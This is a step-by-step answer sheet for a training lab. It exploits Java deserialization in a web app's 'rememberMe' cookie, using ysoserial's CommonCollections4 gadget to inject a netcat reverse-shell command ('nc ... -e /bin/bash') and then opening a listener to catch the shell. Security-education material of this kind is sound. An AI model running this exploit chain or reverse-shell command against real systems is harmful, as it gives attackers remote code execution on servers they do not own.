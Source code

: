 # Java Deserialization Answersheet

**Step 1:** Click on "Java Website: 16661" link.<br />
<kbd> <img src="1.png" /> </kbd>
<br /> <br />

**Step 2:** Provide the following credential and tick the "Remember Me" option and click on Submit button.<br />
```
Username: admin
Password: password
```
Note: The registration functionality is disabled for this application.<br />
<kbd> <img src="2.png" /> </kbd>
<br /> <br />

**Step 3:** Capture the HTTP request and send this request to repeater "Right Click -> Send to Repeater".<br />
<kbd> <img src="3.png" /> </kbd>
<br /> <br />

**Step 4:** Click on "send" button and observe that the server responds with "rememberMe" cookie which has Java serialized magic string starting with "rO0".<br />
<kbd> <img src="4.png" /> </kbd>
<br /> <br />

**Step 5:** Observe the serialized value of it after decoding it with Base64.<br />
<kbd> <img src="5.png" /> </kbd>
<br /> <br />

**Step 6:** Forward the request captured in **Step 3** and click on "Login" button.<br />
<kbd> <img src="6.png" /> </kbd>
<br /> <br />

**Step 7:** Download the YSoSerial utility from following location, and use the following command to check the payloads available.<br />
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
```
java -jar ysoserial-master-SNAPSHOT.jar
```
<kbd> <img src="7.png" /> </kbd>
<br /> <br />

**Step 8:** Capture the IP address and use that to generate the reverse shell payload using following command and capture the generated payload.<br />
```
java -jar ysoserial-master-SNAPSHOT.jar CommonCollections4 "nc 192.168.29.88 4444 -e /bin/bash" | base64 -w 0
```
<kbd> <img src="8.png" /> </kbd>
<br /> <br />

**Step 9:** Start the listener using following command.<br />
```
nc -nlvp 4444
```
<kbd> <img src="9.png" /> </kbd>
<br /> <br />

**Step 10:** Replace the payload generated in **Step 8** in the "RememberMe" parameter and click on "send" button to send request to the server.<br />
<kbd> <img src="10.png" /> </kbd>
<br /> <br />

**Step 11:** A connection will be received on reverse shell. Extract the system information using whoami, uname -a command.<br />
<kbd> <img src="11.png" /> </kbd>
<br /> <br />